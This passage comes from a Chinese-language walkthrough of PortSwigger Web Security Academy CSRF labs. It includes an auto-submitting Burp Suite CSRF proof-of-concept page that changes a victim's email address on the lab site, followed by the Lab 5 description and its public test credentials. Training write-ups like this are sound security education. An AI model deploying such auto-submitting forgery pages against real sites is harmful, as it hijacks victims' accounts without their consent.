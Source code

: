 
2、解答靶场

创建并托管概念利用验证（CSRF令牌是一次性的，因此需要添加一个新令牌，刷新页面再次请求，就是新的了）

再把 burp 构造的 poc 传到攻击服务器模拟受害用户触发该页面

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a9a009a03e38f4684a755f000640028.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="123456&#64;123&#46;com" />
      <input type="hidden" name="csrf" value="qsXjY0yKKCDVkXDZtrqJaGhvGVgL3yUK" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Lab5

实验5：令牌绑定到非会话cookie的CSRF

```
Lab: CSRF where token is tied to non-session cookie
PRACTITIONER

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya
```

```
信息：

1、本实验的电子邮件更改功能易受CSRF攻击。使用令牌来尝试防止CSRF攻击，但没有完全集成到站点的会话处理系统中。

2、解决实验：使用漏洞攻击服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看者的电子邮件地址

3、已有账号：

wiener:peter

carlos:montoya
```
